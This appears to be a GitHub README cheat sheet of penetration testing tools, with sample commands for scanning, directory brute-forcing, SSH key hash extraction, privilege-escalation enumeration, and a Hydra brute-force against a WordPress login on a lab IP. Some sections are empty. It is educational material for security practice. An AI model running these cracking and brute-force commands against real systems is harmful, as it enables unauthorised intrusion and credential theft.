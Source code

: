 # AHackersToolbox
A list of Penetration Testing (Hacking) tools that can be used, as well as some helpful information and examples. For educational purposes only.

**Note**: No download procedures means it comes with kali linux.

![Monty Python](intruder.png) ![Monty Python](intruder.png)

Nmap
----
Network scanning tool: Use this to identify open ports, running services and other information about the server.

```
nmap -v -A 1.2.3.4
```


DIRB
----
Web scanner. Use this to find file paths, directories, etc; of content on a webapp

```
dirb -w http://1.2.3.4
```


Enum4Linux
----------

```
```


Aircrack-ng
-----------
Brute force WiFi password cracking.

```
```


SSH2John
--------
Strip an ssh2 format private key file of its encryption hash for cracking with JohnTheRipper.

Note: Private key files (ex. id_rsa) can be password protected to help secure them in case they are lost/stolen, ssh2john retrieves the hashed password.

**Download and Run**
```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
python ssh2john.py id_rsa > id_rsa.hash
```

JohnTheRipper
-------------
Brute force password cracking of hashed passwords

```
```


LinEnum
-------
Use this to assist in locating potential methods of privelege escalation on linux.

**Download, make executable, and run**
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -s -r report -t
```


Hydra
-----
Network brute force login cracker

```
hydra -l Elliot -P fsocity.dic 10.10.103.0 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.0%2Fwp-admin%2F&testcookie=1:F=is incorrect'
```

